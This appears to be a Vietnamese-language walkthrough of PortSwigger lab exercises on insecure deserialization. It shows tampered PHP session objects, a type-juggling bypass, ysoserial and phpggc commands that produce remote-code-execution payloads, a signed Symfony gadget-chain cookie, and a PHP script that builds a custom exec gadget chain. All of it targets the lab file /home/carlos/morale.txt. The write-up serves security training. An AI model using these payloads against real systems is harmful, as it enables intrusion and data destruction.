

# Web11

- [**Insecure deserialization**](#insecure-deserialization)
    - [Modifying serialized objects](#modifying-serialized-objects)
    - [Modifying serialized data types](#modifying-serialized-data-types)
    - [Using application functionality to exploit insecure deserialization](#using-application-functionality-to-exploit-insecure-deserialization)
    - [Arbitrary object injection in PHP](#arbitrary-object-injection-in-php)
    - [Exploiting Java deserialization with Apache Commons](#exploiting-java-deserialization-with-apache-commons)
    - [Exploiting PHP deserialization with a pre-built gadget chain](#exploiting-php-deserialization-with-a-pre-built-gadget-chain)
    - [Developing a custom gadget chain for Java deserialization](#developing-a-custom-gadget-chain-for-java-deserialization)
    - [Developing a custom gadget chain for PHP deserialization](#developing-a-custom-gadget-chain-for-php-deserialization)
    - [Using PHAR deserialization to deploy a custom gadget chain](#using-phar-deserialization-to-deploy-a-custom-gadget-chain)

# **Insecure deserialization**

### Modifying serialized objects

Có thể thấy sau khi đăng nhập, server sẽ set cho ta cookie `session` là Base64 encode của một serialized object



Sửa lại object để ta có quyền admin

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
```

Encode Base64 và đổi cookie thành dãy ta vừa sửa để có quyền admin


Xóa user `carlos` để hoàn thành lab


---

### Modifying serialized data types

Sau khi login, ta nhận được cookie `session` là Base64 encode của một serialized object 


Sửa username thành `administrator`, server hiện debug như sau


Có thể thấy server đã vô tình cho ta `access_tokens` của user `administrator`

```php
$access_tokens[$user->username] = "vwj5oj3esmvkba42vspmghjw69kon5tx"
```

Sử dụng `access_tokens` này để đăng nhập thành user `administrator`


Ngoài ra, từ đoạn debug ta cũng có thể thấy rằng backend đã so sánh string `access_token` ta cung cấp với string `access_token` của user có sẵn trên server bằng `==`. Ta có thể khai thác `type juggling` bằng cách sửa access_token từ string 32 ký tự thành số 0 (do khi so sánh string với integer bằng `==`, PHP sẽ convert string thành số, trong trường hợp này sẽ thành số 0 bởi ký tự đầu của biến `access_token` là chữ cái)

```php
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```


Xóa user `carlos` để hoàn thành lab


---

### Using application functionality to exploit insecure deserialization

Có thể thấy vị trí folder avatar của user sẽ được lưu vào object `User`.


Paste vị trí folder `avatar` của user `wiener` vào user `gregg`, sử dụng user `gregg` để upload một avatar khác cùng tên với avatar đã upload vào user `wiener`

Nhận thấy avatar của user `wiener` cũng bị thay đổi


Khi xóa user `gregg`, avatar của `wiener` cũng bị mất → có thể đoán được folder avatar của user cũng sẽ bị xóa khi ta thực hiện xóa user


Thay vị trí folder avatar thành folder `/home/carlos`


Thực hiện xóa user `wiener`, thấy hiện thông báo lỗi


Server sử dụng `unlink("/home/carlos")` → ta có thể xóa file `/home/carlos/morale.txt` thay vì xóa cả folder


Lab được solved → file đã được xóa


---

### Arbitrary object injection in PHP

Có thể thấy website có file `/libs/CustomTemplate.php`


Truy cập `/libs/CustomTemplate.php~`, ta đọc được nội dung file

Nhận thấy method `__destruct()` trong object `CustomTemplate` sẽ xóa file `$this->lock_file_path` → ta có thể inject object `CustomTemplate` với attribute `lock_file_path` là vị trí file ta muốn xóa, khi chương trình kết thúc hoặc object bị phá hủy thì file sẽ bị xóa.


Tạo object `CustomTemplate` và serialize nó


Encode Base 64 ,paste vào cookie `session` để server unserialize object


Server sẽ báo lỗi object không có thuộc tính `user`, nhưng lab vẫn được solved do sau khi báo lỗi, script sẽ kết thúc, object `CustomTemplate` bị phá hủy và phương thức `__destroy()` sẽ được gọi

---

### Exploiting Java deserialization with Apache Commons

Sau khi login, ta sẽ có cookie session là base64 encode của một Java serialized object


Dùng `ysoserial` để generate ra object thực hiện DNS lookup


Paste vào và gửi đến server, thấy xuất hiện 2 records → ta có thể khai khác deserialize ở đây


Dùng `ysoserial` để generate ra object thực hiện RCE

Sau một vài payload ta thấy có thể dùng `CommonsCollections4` để thực hiện RCE

```bash
java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 | tr -d "\n"
```


---

### Exploiting PHP deserialization with a pre-built gadget chain

Sau khi login, ta sẽ có cookie `session` là url encode của json chứa `token`  (base64 encode của PHP serialized object) và `sig_hmac_sha1` (signed key của `token`)


Thử đổi `sig_hmac_sha1`, ta nhận được lỗi → biết được server side sử dụng `Symfony 4.3.6`


Hơn nữa đọc trong source code HTML có link đến `/cgi-bin/phpinfo.php`


Ở phần Environment của `phpinfo.php`, ta có được `SECRET_KEY` để sign SHA-1 HMAC


Dùng `PHPGCC` để generate object

```bash
./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 | tr -d "\n"
```


Tạo signature cho object


Payload đầy đủ

```json
{"token":"Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg==","sig_hmac_sha1":"2af6e5c0a697dfa9ad836484a91787473bdb095b"}
```

URL Encode rồi gửi vào cookie `session`


---

### Developing a custom gadget chain for Java deserialization

Xem solution

---

### Developing a custom gadget chain for PHP deserialization

Xem HTML src, ta có được file `/cgi-bin/libs/CustomTemplate.php`. Truy cập vào `/cgi-bin/libs/CustomTemplate.php~` để đọc nội dung file


Ta có thể thấy ở class `DefaultMap` có phương thức `_get`, tại đây sử dụng hàm `call_user_func()` → ta có thể sử dụng hàm này để thực hiện `exec("rm /home/carlos/morale.txt")`


Để trigger được phương thức get, ta sẽ cần dùng đến class`Product`


Class này khi được khởi tạo sẽ thực hiện `$desc->$default_desc_type()`. Như vậy khi 

- `$desc` là một object `DefaultMap` với thuộc tính `$callback` là string `"exec"` (tạm gọi là object `$a`)
- `$default_desc_type` là string `"rm /home/carlos/morale.txt"`

thì `$desc->$default_desc_type` sẽ gọi đến `$a→__get("rm /home/carlos/morale.txt")` và thực hiện `call_user_func("exec","rm /home/carlos/morale.txt")` (tương đương `exec("rm /home/carlos/morale.txt")`)

Để có thể khởi tạo một object `Product`, ta sẽ dùng phương thức `__wakeup()` của class `CustomTemplate`

Đoạn code dùng để tạo serialized object

```php
<?php

class CustomTemplate {
    public $default_desc_type;
    public $desc;
    public $product;

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class DefaultMap {
    public $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

$ct= new CustomTemplate();
$ct->default_desc_type="rm /home/carlos/morale.txt";
$ct->desc=new DefaultMap("exec");

echo serialize($ct);
// unserialize('O:14:"CustomTemplate":3:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:4:"exec";}s:7:"product";N;}')
```

Gửi payload, thấy server báo lỗi user không hợp lệ


Gửi payload lần nữa thấy báo lỗi không tồn tại file `/home/carlos/morale.txt` khi thực hiện lệnh `rm` → RCE thành công


---

### Using PHAR deserialization to deploy a custom gadget chain

Xem solution